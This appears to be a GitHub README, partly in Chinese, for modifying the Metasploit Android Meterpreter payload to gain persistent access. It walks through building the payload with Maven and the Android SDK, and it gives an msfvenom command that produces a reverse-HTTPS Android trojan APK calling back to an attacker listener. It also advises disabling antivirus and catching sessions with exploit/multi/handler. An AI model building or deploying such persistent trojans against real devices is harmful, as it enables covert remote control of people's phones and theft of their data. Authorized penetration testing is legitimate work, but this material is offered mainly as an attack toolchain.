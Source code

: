 https://github.com/xiaohuanshu/persistent-androidpayload
修改Metasploit安卓Payload源码以实现持久化访问

# Building the Java and Android Meterpreter
只要下载java文件，AS打开androidpayload文件夹，但是mvn命令生成jar文件是在java目录下，而不是androidpayload目录——会出错。
pom.xml有感叹号错误不必理会，mvn package命令会下载缺失Maven文件

1. 根据自身的环境安装Maven(3.5以上版本) 和 Java8

apt-get update

apt-get -y install maven

update-alternatives  --config mvn

update-alternatives  --config javac


2. 安装 [Android SDK](https://developer.android.com/sdk/index.html), 和 [Android NDK](https://developer.android.com/tools/sdk/ndk/index.html) 

3. 安装 Android SDK Platforms最新29, 10 and 19, 并更新 "Android SDK Tools" 和 "Android SDK Platform-tools"， a和b这里没有安装齐全mvn package会彻底Erro，删除Android SDK和NDK文件夹，重新到setting里下载

a. AS->File->Setting->System Setting->Android SDK->SDK Platforms

下载Android SDK Platforms——API version 最新的SDK（compileSdkVersion）29+10 +19

b. AS->File->Setting->System Setting->Android SDK->SDK Tools->Show Package Details打勾,

Android SDK Build Tools

Android SDK Platform-Tools 29.0.5
Android SDK Tools 26.1.1
NDK(Side by side)20.0.055
Cmake 3.10.
Android SDK Build-Tools 25.0.0(AhMyth)
Android Emulator 29.2.11

4. 编译AndroidPayload for Metasploit ... SUCCESS 即成功,并把编译新生成的/java/target/data中android文件夹——复制到Metasploit-framework根目录下的data文件夹。
Android 木马：

cd metasploit-payloads/tree/master/java

mvn package -Dandroid.sdk.path=/root/Android/sdk -Dandroid.release=true -P deploy

返回成功信息：

[INFO] AndroidPayload for Metasploit ...................... SUCCESS [  8.920 s]

[INFO] Android Meterpreter ................................ FAILURE [  4.153 s]

[INFO] BUILD FAILURE

cd /java/target/data

cp -r android /usr/share/metasploit-framework/data

java木马：mvn -D deploy.path=/usr/share/metasploit-framework -P deploy package



5.通过msfvenom命令生成APK:

msfvenom

search android

msfvenom -l payloads

msfvenom -p android/meterpreter_reverse_https  LHOST=10.10.10.102 LPORT=4444 -o payload.apk


返回信息：如果开头出现了这三个WARNING，说明msfvenom生成APK时使用的是我们修改后的版本。 payload.apk在root目录,即主文件夹

WARNING: Local file /usr/share/metasploit-framework/data/android/apk is being used

WARNING: Local files may be incompatible with the Metasploit Framework

WARNING: Local file /usr/share/metasploit-framework/data/android/apk/classes.dex is being used


## Building on OSX
```
brew cask install caskroom/versions/java8
brew cask install android-sdk
brew install maven
sdkmanager --licenses
sdkmanager "platforms;android-10"
sdkmanager "platforms;android-19"

#cd metasploit-payloads/java
mvn package -Dandroid.sdk.path=/usr/local/share/android-sdk -Dandroid.release=true -P deploy
```

## Compiling JavaPayload and Java Meterpreter manually

To compile JavaPayload (a Java stager / code loader) and Java Meterpreter for
Metasploit, you need Maven 3.1 or above (Maven 3.5 works at the time of this
writing), and a copy of JDK 8.0 or later. Ensure that `mvn` and `javac` are in
your path and work. Then run

```
mvn package
```

to package all the files needed for Java meterpreter. The two files that you will be generated are:

```
meterpreter/meterpreter/target/meterpreter.jar
meterpreter/stdapi/target/ext_server_stdapi.jar
```

To get Metasploit to use these files, you need to place them in a place where
it can find them. To automatically build and install these files into
Metasploit Framework for testing, run:

```
mvn -P deploy package
```

This will package all the files and copy them into the correct place for
Metasploit, assuming that the metasploit-framework repository is checked out in
an adjacent directory to this one. (`../../metasploit-framework/data/java`). If
you get spurious compilation errors, make sure that there is an exclude rule in
your antivirus for the Metasploit directory (or that your antivirus is
disabled).

If the path to your metasploit framework repository is not
`../../metasploit-framework`, but for example (with Kali Linux)

`/usr/share/metasploit-framework/`, set the deploy.path directive like so:

```
mvn -D deploy.path=/usr/share/metasploit-framework -P deploy package
```

When you are editing this or any other Meterpreter, you will want to make sure
that your copy of metasploit-framework is also up-to-date. We occasionally
update the network protocol between Metasploit and its Payloads, and if the two
do not match, things will probably not work. Metasploit will warn you the first
time it stages a development payload that it is doing so, and that the payload
and Metasploit framework may be incompatible.

Each time you make a change to your code, you must build and deploy the files
into metasploit-framework for it to see the updates. It is not necessary to
restart msfconsole when updating payloads however, as they are read from disk
each time. So, a reasonable strategy when debugging is to leave msfconsole
running with `exploit/multi/handler`, and just install and restage payloads as
needed.

When you are done editing and want to revert Metasploit to use the builtin
payloads, simply delete `data/meterpreter/*.jar` and `data/meterpreter/java`
from your Metasploit framework directory. It will then fall back to the
versions bundled with the metasploit-payloads Ruby gem.

# IDE Support

In case you want to edit/debug JavaPayload for Metasploit or Java Meterpreter
with an IDE, Maven provides plugins to auto-generate project files for your
favourite environment (at least for Eclipse, Netbeans or IntelliJ).

I use Eclipse, so to generate project files I use

```
mvn eclipse:eclipse
```

This will generate project files that can be imported via

**File->Import->Existing Projects into Workspace**

into your Eclipse workspace.

(Note that if this is your first Maven project you want to use in Eclipse, you
also have to run

```
mvn -Declipse.workspace=/path/to/your/workspace eclipse:configure-workspace
```

to set up path variables like `M2_REPO` to point to the correct location.)

For NetBeans or IntelliJ IDEA, refer to the documentation at

http://maven.apache.org/netbeans-module.html
http://maven.apache.org/plugins/maven-idea-plugin/



